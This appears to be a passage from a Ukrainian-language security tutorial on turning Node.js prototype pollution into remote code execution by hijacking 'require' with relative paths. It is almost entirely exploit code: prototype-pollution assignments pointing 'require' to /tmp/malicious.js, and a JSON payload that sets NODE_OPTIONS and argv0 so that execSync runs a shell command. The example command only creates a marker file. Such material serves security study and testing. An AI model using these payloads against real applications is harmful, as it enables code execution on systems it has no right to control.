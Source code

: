 {% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork("anything");
```
{% endtab %}
{% endtabs %}

#### Відносне вимагання - 1

Якщо **відносний шлях** завантажується замість абсолютного шляху, ви можете змусити node **завантажити інший шлях**:

{% tabs %}
{% tab title="експлуатація" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_1\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}
